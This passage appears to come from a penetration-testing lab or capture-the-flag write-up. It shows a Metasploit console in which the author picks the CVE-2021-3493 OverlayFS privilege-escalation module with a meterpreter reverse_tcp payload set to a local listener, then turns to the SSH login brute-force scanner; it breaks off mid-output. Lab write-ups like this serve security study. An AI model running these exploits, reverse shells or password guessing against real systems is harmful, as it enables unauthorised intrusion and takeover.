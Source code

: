    8    exploit/multi/http/apache_flink_jar_upload_exec                     2019-11-13       excellent  Yes    Apache Flink JAR Upload Java Code Execution
   9    auxiliary/scanner/http/apache_flink_jobmanager_traversal            2021-01-05       normal     Yes    Apache Flink JobManager Traversal
   10   exploit/linux/smtp/apache_james_exec                                2015-10-01       normal     Yes    Apache James Server 2.3.2 Insecure User Creation Arbitrary File Write
   11   exploit/multi/http/apache_roller_ognl_injection                     2013-10-31       excellent  Yes    Apache Roller OGNL Injection
   12   exploit/multi/http/struts_dev_mode                                  2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   13   exploit/linux/local/tomcat_ubuntu_log_init_priv_esc                 2016-09-30       manual     Yes    Apache Tomcat on Ubuntu Log Init Privilege Escalation
   14   exploit/linux/local/apport_abrt_chroot_priv_esc                     2015-03-31       excellent  Yes    Apport / ABRT chroot Privilege Escalation
..............................
{% endvimhl %}

I'm going to try the first payload, which is Overlayfs LPE

{% vimhl bash %}
msf6 > use 0
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > show optons
[-] Invalid parameter "optons", use "show -h" for more information
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > show options
Module options (exploit/linux/local/cve_2021_3493_overlayfs):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on
Payload options (linux/x64/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.142.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   x86_64
View the full module info with the info, or info -d command.
msf6 exploit(linux/local/cve_2021_3493_overlayfs) >
{% endvimhl %}

we need to establish an SSH session before we use it
{% vimhl bash %}
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > show options
Module options (auxiliary/scanner/ssh/ssh_login):
   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
